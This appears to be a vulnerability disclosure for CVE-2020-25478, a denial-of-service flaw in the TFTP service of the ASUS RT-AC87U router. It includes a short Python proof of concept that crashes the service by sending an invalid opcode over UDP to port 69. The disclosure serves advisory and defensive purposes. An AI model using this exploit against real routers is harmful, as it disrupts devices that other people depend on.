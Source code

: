 # ASUS-RT-AC87U-TFTP-is-vulnerable-to-Denial-of-Service-DoS-attack
CVE-2020-25478 - ASUS RT-AC87U TFTP is vulnerable to Denial of Service(DoS) attack

1. NAME OF AFFECTED PRODUCT(S) AND VERSION(S)

ASUS RT-AC87U
3.0.0.4.382_51640


2. PROBLEM TYPE

Its primarily related to CWE-20, TFTP service running in ASUS RT-AC87U is vulnerable to Denial of Service(DoS) attack when invalid opcode is sent to the service. Following python code snippet is used for testing the vulnerability:

		import socket
		import sys
		tftpd = ('192.168.1.1', 69)
		#Try and open an UDP SOCKET
		try:
		tftp = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		except:
		print("Failed on socket creation, so exiting")
		sys.exit(1)
		#create a invalid opcode exeeding the 2 byte length
		# opcode operation
		# 1 Read request (RRQ)
		# 2 Write request (WRQ)
		# 3 Data (DATA)
		# 4 Acknowledgment (ACK)
		# 5 Error (ERROR)
		invalidOpcode = "0000"
		tftp.sendto(invalidOpcode,tftpd)

3. DESCRIPTION

Asus RT-AC87U version 3.0.0.4.382_51640 is vulnerable to denial of service attack on TFTP service causing TFTP service to crash. TFTP service is prone to crash remotely by sending an invalid opcode.

https://www.asus.com/content/ASUS-Product-Security-Advisory/
